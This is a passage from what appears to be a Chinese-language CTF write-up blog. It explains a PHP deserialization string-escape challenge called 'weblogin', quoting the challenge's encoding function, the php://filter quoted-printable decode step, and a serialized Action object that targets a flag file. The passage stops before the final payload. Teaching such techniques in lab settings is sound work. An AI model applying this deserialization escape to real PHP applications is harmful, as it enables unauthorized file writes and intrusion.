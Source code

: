 变成了字符串的一部分，可以正常执行。
简单题。

三、weblogin
看了提示好像又是个php反序列化字符串逃逸。。。
这个我懂，反序列化逃逸好出并且看起来比较难，我最近也出了一个字符串逃逸的，不过没这么复杂。

源码很长，是一个处理用户的路由。这种很长的源码直接倒推，先找flag输出点：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606141052.png)

看起来是要写个满足条件的文件才会输出flag。
全局搜索file_put，找到四个全是 file_put_contents($file,enc(serialize($p))); 
来看一下这个enc：

    function enc($str){
        $_str = '';
        for($i=0;$i<strlen($str);$i++){
            if ($str[$i] !== '='){
                $_str = $_str.'='.dechex(ord($str[$i]));
            }else{
                $_str = $_str.$str[$i].$str[$i+1].$str[$i+2];
                $i = $i+2;
            }
        }
        return $_str;
    } 

试一下：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606141828.png)

转换成等号加16进制的ascii码。但是下面那个i+2很明显说明了不会处理已经编码过的，比如：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606141937.png)

有啥用呢，这就得看下面反序列化里面的伪协议：

    $p = unserialize(filter(file_get_contents('php://filter/read=convert.quoted-printable-decode/resource='.$file))); 

简单点说就是把上面编码过的解码，比如=31变成1，字符减少了两个。
接下来看控制生成文件的地方：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606153149.png)

datafile可控。

    class Action {
    public $data=array();
    public $username='Troy3e';
    public $password='Troy3e';
    public $datafile='flag01476f0ab4de69015b1b6e07a0e84095';
    public $act='register';
    }
    echo serialize(new Action());
    //O:6:"Action":5:{s:4:"data";a:0:{}s:8:"username";s:6:"Troy3e";s:8:"password";s:6:"Troy3e";s:8:"datafile";s:36:"flag01476f0ab4de69015b1b6e07a0e84095";s:3:"act";s:8:"register";}
